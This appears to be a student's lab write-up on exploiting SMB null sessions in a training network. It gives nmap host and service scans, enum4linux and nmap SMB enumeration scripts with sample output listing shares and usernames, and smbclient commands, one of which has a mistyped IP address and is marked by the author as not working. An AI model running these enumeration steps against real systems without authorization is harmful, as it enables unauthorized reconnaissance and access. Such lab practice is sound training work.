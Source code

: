 #Null Sessions Lab - RCM 8/16/2021

#Description

In this lab you can practice different techniques and tools against a machine vulnerable to null session!

#Goal

The final goal of the lab is retrieve information from the target machine such as shares, users, groups and so on! Moreover by navigating the remote machine, you should be able to find a file name "Congratulations.txt\". Download it and explore its content.

#Tools

The best tools for this lab are:

    enum4linux

    samrdump

    smbclient

#Steps

1. Find a target in the network
`nmap -sn 192.168.99.100/24 -oN discoverynmap.txt`
Host `192.168.99.162` is up.

2. Check for null session
`nmap -sS -sV 192.168.99.162 -oN morenmap.txt`
   - Ports 135,139, and 445 are open.
   - Identified null session with `enum4linux -n 192.168.99.162`  
3. Exploit null session
   
    - Gather information with enum4linux
    - shares `nmap -script=smb-enum-shares 192.168.99.162`

       ```\\192.168.99.162\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: Remote IPC
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
         ```

    - users `nmap -script=smb-enum-users 192.168.99.162`
     
        - Known Usernames: Administrator, eLS, Frank, Guest, HelpAssistant, netadmin

    - password policies 
      - no password expiries. some accounts disabled.
    - groups
      - WORKGROUP

5. Use smbclient to navigate the target machine
 
`sudo smbclient -L WORKGROUP -I 102.168.99.162 -N -U ""`
NONE OF THIS IS WORKING :) 
`smbclient \\\\192.168.99.162\\WorkSharing -N`
